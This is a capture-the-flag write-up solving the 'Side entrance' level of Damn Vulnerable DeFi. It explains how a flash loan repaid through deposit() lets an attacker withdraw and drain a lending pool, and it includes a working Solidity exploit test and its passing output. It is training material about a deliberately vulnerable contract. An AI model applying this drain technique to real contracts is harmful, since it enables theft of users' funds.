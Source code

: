 #	Damn Vulnerable DeFi (Foundry version)
- [Scope](#scope)
- [Plan](#plan)
- [Solution](#solution)
  - [Proof of Concept](#proof-of-concept)

##	Challenge #4 - Side entrance - Description

A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

You must take all ETH from the lending pool.

##  Scope

| File Name                                                                           | SHA-1 Hash                               |
| ----------------------------------------------------------------------------------- | ---------------------------------------- |
| damn-vulnerable-defi-foundry/src/Contracts/side-entrance/SideEntranceLenderPool.sol | 4f0af04df0acfe1e2763246b758ac9794f7aea64 |

##  Plan

From the name of the challenge we suppose that must be about [SWC-107: Reentrancy](https://swcregistry.io/docs/SWC-107). It is the first so far that is missing `ReentrancyGuard`. [withdraw](https://github.com/nicolasgarcia214/damn-vulnerable-defi-foundry/blob/e9c6bc3962dd14f90e94542711ed46f5bd8c88a4/src/Contracts/side-entrance/SideEntranceLenderPool.sol#L26) function is correctly checking the [checks-effects-interactions pattern](https://medium.com/coinmonks/protect-your-solidity-smart-contracts-from-reentrancy-attacks-9972c3af7c21), [deposit](https://github.com/nicolasgarcia214/damn-vulnerable-defi-foundry/blob/e9c6bc3962dd14f90e94542711ed46f5bd8c88a4/src/Contracts/side-entrance/SideEntranceLenderPool.sol#L22) function is pretty straightforward and that leaves us the [flashLoan](https://github.com/nicolasgarcia214/damn-vulnerable-defi-foundry/blob/e9c6bc3962dd14f90e94542711ed46f5bd8c88a4/src/Contracts/side-entrance/SideEntranceLenderPool.sol#L32) function.

## Solution

<details>
    <summary>Description</summary>

In function [`flashLoan()`](https://github.com/nicolasgarcia214/damn-vulnerable-defi-foundry/blob/e9c6bc3962dd14f90e94542711ed46f5bd8c88a4/src/Contracts/side-entrance/SideEntranceLenderPool.sol#L36)

```solidity
IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();
```

we have the `execute()` that will be implemented by us. What we can do is:
1.  Call [flash loan()](https://github.com/nicolasgarcia214/damn-vulnerable-defi-foundry/blob/e9c6bc3962dd14f90e94542711ed46f5bd8c88a4/src/Contracts/side-entrance/SideEntranceLenderPool.sol#L32).
2.  In our `execute()` deposit the borrowed funds back to the pool. Like that the pool will be satisfied that we paid back our loan.
3.  Drain the pool by calling the [withdraw()](https://github.com/nicolasgarcia214/damn-vulnerable-defi-foundry/blob/e9c6bc3962dd14f90e94542711ed46f5bd8c88a4/src/Contracts/side-entrance/SideEntranceLenderPool.sol#L26).

On a side note, we must also implement the `receive()` to be able to receive the ETH.

</details>

<details>
    <summary>damn-vulnerable-defi-foundry/test/Levels/side-entrance/SideEntrance.t.sol</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0;

import {Utilities} from "../../utils/Utilities.sol";
import "forge-std/Test.sol";

import {SideEntranceLenderPool} from "../../../src/Contracts/side-entrance/SideEntranceLenderPool.sol";

contract SideEntrance is Test {
    uint256 internal constant ETHER_IN_POOL = 1_000e18;

    Utilities internal utils;
    SideEntranceLenderPool internal sideEntranceLenderPool;
    address payable internal attacker;
    uint256 public attackerInitialEthBalance;

    function setUp() public {
        utils = new Utilities();
        address payable[] memory users = utils.createUsers(1);
        attacker = users[0];
        vm.label(attacker, "Attacker");

        sideEntranceLenderPool = new SideEntranceLenderPool();
        vm.label(address(sideEntranceLenderPool), "Side Entrance Lender Pool");

        vm.deal(address(sideEntranceLenderPool), ETHER_IN_POOL);

        assertEq(address(sideEntranceLenderPool).balance, ETHER_IN_POOL);

        attackerInitialEthBalance = address(attacker).balance;

        console.log(unicode"🧨 PREPARED TO BREAK THINGS 🧨");
    }

    function testExploit() public {
        /** EXPLOIT START **/
        sideEntranceLenderPool.flashLoan(ETHER_IN_POOL);
        sideEntranceLenderPool.withdraw();
        attacker.transfer(address(this).balance);
        /** EXPLOIT END **/
        validation();
    }

    function validation() internal {
        assertEq(address(sideEntranceLenderPool).balance, 0);
        assertGt(attacker.balance, attackerInitialEthBalance);
    }

    function execute() external payable {
        sideEntranceLenderPool.deposit{value: msg.value}();
    }

    receive() external payable {}
}
```
</details>

### Proof of Concept

```
./run.sh 4
[⠊] Compiling...
[⠔] Compiling 1 files with 0.8.12
[⠑] Solc 0.8.12 finished in 1.44s
Compiler run successful

Running 1 test for test/Levels/side-entrance/SideEntrance.t.sol:SideEntrance
[PASS] testExploit() (gas: 47390)
Logs:
  🧨 PREPARED TO BREAK THINGS 🧨

Test result: ok. 1 passed; 0 failed; finished in 2.57ms
```